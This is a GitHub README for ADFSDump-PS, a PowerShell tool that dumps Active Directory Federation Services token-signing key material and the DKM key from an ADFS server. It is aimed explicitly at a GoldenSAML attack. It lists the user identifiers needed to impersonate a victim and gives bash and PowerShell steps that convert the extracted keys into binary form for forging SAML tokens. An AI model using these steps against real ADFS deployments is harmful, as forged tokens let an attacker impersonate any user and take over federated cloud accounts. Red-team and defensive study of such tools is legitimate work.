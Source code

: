 # ADFSDump-PS
I can't take credit for the hard work done in building [ADFSDump](https://github.com/mandiant/ADFSDump) but this is a PowerShell port of it using native functions. 

## Pre-Reqs
In certain conditions, you might need the SqlServer PS module:
- Install-Module -Name SqlServer
Note: Tests on an ADFS server installation with WID in October 2024 were possible without the SqlServer module.

You'll also need the following values for the GoldenSAML attack:
```
User Email/UPN - User to be impersonated
User ObjectGUID - Respective GUID for said user to be impersonated
DKM Key - Gathered using this script
TKS Key - Gathered using this script
Domain - Domain as seen by STS/ADFS/O365
```

## Usage 
To execute this you'll need to be running in the context of the ADFS Service account and on the server where ADFS Lives. 

```
.\Golden.ps1
Encrypted Token Signing Key: <Base64blob>
Certificate value: <certificate value>
Store location value: <StoreLocation>
Store name value: <StoreName>
DKM Key: <DKMKeyValue>
Domain is: example.zsec.uk
```

![image](https://github.com/ZephrFish/ADFSDump-PS/assets/5783068/9594365d-918d-4be5-b44e-ea9ac1e04a35)


If you want to do GoldenSAML, you'll need to do our conversion in the final few steps. Once you've got both the encrypted blob and the DKM key from the script, you'll need to run the following to convert them:
- `cat TKSKey.txt | base64 -d > TKSKey.bin`
- `cat DKM.txt | tr -d "-" | xxd -r -p > DKM.bin`
I'll link these two together later but save the DKM to DKM.txt and the encrytped b64 blob to TKSKey.txt, the PS will do the rest :).

For doing the same with PowerShell:    
```powershell
#TKSKey:
[IO.File]::WriteAllBytes("<PathToTKSKey>.bin", [Convert]::FromBase64String([IO.File]::ReadAllText("<PathToTKSKeyOutputFromScript>.txt")))
#DKMKey:
$content = Get-Content "<PathToDKMKeyOutputFromScript>.txt"
$cleanedContent = $content -replace "-"
$byteArray = for ($i = 0; $i -lt $cleanedContent.Length; $i += 2) {
    [Convert]::ToByte($cleanedContent.Substring($i, 2), 16)
}
[IO.File]::WriteAllBytes("<PathToDKMKey>.bin", $byteArray)
```
